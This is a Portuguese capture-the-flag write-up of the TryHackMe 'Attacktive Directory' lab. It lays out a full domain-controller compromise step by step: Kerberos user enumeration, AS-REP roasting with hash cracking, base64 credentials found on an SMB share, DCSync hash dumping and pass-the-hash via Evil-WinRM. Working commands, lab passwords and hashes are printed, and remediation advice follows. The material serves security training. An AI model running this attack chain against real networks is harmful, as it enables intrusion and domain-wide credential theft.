## Introdução

A sala **Attacktive Directory** do TryHackMe simula um Domain Controller Windows em ambiente corporativo desatualizado. Classificada como nível **Médio**, o laboratório cobre técnicas fundamentais de ataque a Active Directory — desde enumeração sem credenciais até comprometimento total do domínio via DCSync. É uma das salas mais recomendadas para quem está aprendendo AD offensive.

---

## Sumário Executivo

A enumeração inicial revelou um Domain Controller do domínio `spookysec.local` com Kerberos, LDAP, SMB e WinRM expostos. A ausência de pré-autenticação Kerberos na conta `svc-admin` permitiu AS-REP Roasting — o hash obtido foi quebrado offline, concedendo acesso autenticado ao domínio. Via SMB, localizamos credenciais da conta `backup` codificadas em base64 em um compartilhamento acessível. Essa conta possuía privilégios de replicação no DC, viabilizando DCSync para extração de todos os hashes NTLM do AD. O hash do Administrator foi utilizado em ataque Pass-the-Hash via Evil-WinRM, resultando em comprometimento total do Domain Controller.

**Impacto:** controle total do domínio `spookysec.local`.

---

## Escopo e Ambiente

| Campo | Valor |
|-------|-------|
| Plataforma | TryHackMe |
| IP do alvo | `10.64.145.19` |
| Domínio | `spookysec.local` |
| Sistema Operacional | Windows Server 2019 (10.0.17763) |
| Serviços expostos | DNS (53), HTTP (80), Kerberos (88), LDAP (389/3268), SMB (445), RDP (3389), WinRM (5985) |
| Data do teste | 2026-08-14 |

---

## Metodologia

### 1. Reconhecimento

#### Scan de Portas

```bash
nmap -Pn -A -p- -T4 10.64.145.19
```

```text
53/tcp    open  domain
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap          (Domain: spookysec.local)
445/tcp   open  microsoft-ds
3268/tcp  open  ldap
3389/tcp  open  ms-wbt-server
5985/tcp  open  http          WinRM
```



A combinação de portas 88 (Kerberos), 389 (LDAP) e 445 (SMB) é assinatura de **Domain Controller**. O domínio `spookysec.local` foi identificado diretamente pelo banner LDAP. WinRM na 5985 será relevante na fase de pós-exploração.

#### Confirmação do Domínio com CrackMapExec

```bash
crackmapexec smb 10.64.145.19
```



Consulta passiva via SMB — confirma domínio e versão do SO sem autenticação.

---

### 2. Enumeração

#### Enumeração de Usuários via Kerberos (Kerbrute)

Sem credenciais válidas, o Kerberos pode ser usado para enumerar usuários existentes no domínio. O protocolo responde de forma diferente para usuários válidos vs inválidos — sem disparar lockout de conta, tornando a técnica segura para ambientes com política de bloqueio ativa.

```bash
kerbrute userenum -d spookysec.local --dc 10.64.145.19 users.txt
```



Usuários válidos identificados:

- `james@spookysec.local`
- `svc-admin@spookysec.local`
- `robin@spookysec.local`
- `darkstar@spookysec.local`
- `administrator@spookysec.local`
- `backup@spookysec.local`
- `paradox@spookysec.local`
- `ori@spookysec.local`

---

### 3. Exploração

#### AS-REP Roasting

Contas configuradas com *"Do not require Kerberos preauthentication"* permitem que qualquer usuário solicite um ticket TGT sem fornecer senha. O ticket é criptografado com o hash NTLM da conta — possibilitando crack offline sem interagir diretamente com o alvo após a requisição.

```bash
python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ \
  -dc-ip 10.64.145.19 \
  -usersfile valid_users.txt \
  -request
```



A conta `svc-admin` está vulnerável. Hash AS-REP obtido:

```text
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:b3f30267166c6c8127dfaee88962a3c9$...
```

#### Quebrando o Hash AS-REP

Hashcat no modo `18200` (Kerberos 5 AS-REP etype 23):

```bash
hashcat -m 18200 hash.txt passwords.txt
```



Credenciais recuperadas:
- **Username:** `svc-admin`
- **Password:** `management2005`

#### Acesso SMB Autenticado

Com credenciais válidas no domínio, enumeramos os compartilhamentos acessíveis:

```bash
netexec smb 10.64.145.19 -u 'svc-admin' -p 'management2005' --shares
```



Compartilhamento `backup` acessível com leitura. Conectamos via smbclient:

```bash
smbclient //10.64.145.19/backup -U 'svc-admin'
```



Arquivo `backup_credentials.txt` encontrado com conteúdo codificado em base64:

```text
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
```



```bash
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```

Credenciais da conta de backup:
- **Username:** `backup`
- **Password:** `backup2517860`

---

### 4. Pós-Exploração

#### DCSync — Extração de Hashes do Active Directory

A conta `backup` possui privilégios de replicação no Domain Controller (*Replicating Directory Changes All*). Com esse privilégio é possível simular uma sincronização entre DCs e extrair todos os hashes NTLM armazenados no AD — técnica conhecida como **DCSync**. Não requer acesso interativo ao DC.

```bash
secretsdump.py spookysec.local/backup:backup2517860@10.64.145.19
```



Hash NTLM do Administrator extraído:

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
```

#### Shell Administrativo via Pass-the-Hash (Evil-WinRM)

Com o hash NTLM do Administrator, não é necessário quebrar a senha. O protocolo NTLM aceita o hash diretamente — ataque conhecido como **Pass-the-Hash**:

```bash
evil-winrm -i 10.64.145.19 -u 'Administrator' -H '0e0363213e37b94221497260b0bcb4fc'
```



Acesso administrativo total ao Domain Controller obtido.

---

## Análise de Risco

| Vulnerabilidade | Severidade | Causa Raiz | Remediação |
|-----------------|------------|------------|------------|
| Enumeração de usuários via Kerberos | **Média** | Kerberos responde diferente para usuários válidos/inválidos | Implementar honeypots de usuário; monitorar AS-REQ em volume |
| AS-REP Roasting (`svc-admin`) | **Alta** | Pré-autenticação Kerberos desabilitada sem necessidade | Habilitar pré-autenticação em todas as contas; usar senha longa e aleatória em contas de serviço |
| Credenciais em compartilhamento SMB | **Crítica** | Arquivo com credenciais em texto claro (base64) em share acessível | Nunca armazenar credenciais em arquivos; usar LAPS ou cofre de senhas (CyberArk, HashiCorp Vault) |
| Privilégio de replicação excessivo (`backup`) | **Crítica** | Conta não-administrativa com *Replicating Directory Changes All* | Restringir DCSync a contas de DC exclusivamente; auditar delegações no AD |
| Pass-the-Hash via WinRM | **Alta** | NTLM habilitado + WinRM exposto + hash de alta privilegiado obtido | Desabilitar NTLM onde possível; restringir WinRM por IP; implementar Credential Guard |

---

## Lições Aprendidas

- **Kerberos pré-autenticação desabilitada** é uma configuração herdada de versões antigas do AD que raramente tem justificativa hoje — deve ser auditada e corrigida em todas as contas.
- **Credenciais codificadas em base64** não são credenciais protegidas. Base64 é encoding, não criptografia — qualquer analista reconhece o padrão imediatamente.
- **Contas de serviço com privilégios de replicação** são um vetor crítico. DCSync é silencioso e difícil de detectar sem SIEM configurado para monitorar eventos 4662 no AD.
- **Pass-the-Hash elimina a necessidade de crack** — um hash NTLM comprometido tem o mesmo valor operacional que a senha em texto claro para autenticação Windows.
- **Senhas fracas em contas de serviço** (`management2005`) são recorrentes em ambientes reais. Contas de serviço devem usar senhas longas e aleatórias gerenciadas por cofre.

---

## Flags

| Flag | Localização | Método de Obtenção |
|------|-------------|-------------------|
| user.txt | `C:\Users\svc-admin\Desktop\user.txt.txt` | AS-REP Roasting → crack → acesso autenticado |
| PrivESC.txt | `C:\Users\backup\Desktop\PrivESC.txt` | Credencial em SMB → acesso como backup |
| root.txt | `C:\Users\Administrator\Desktop\root.txt` | DCSync → Pass-the-Hash → Evil-WinRM |




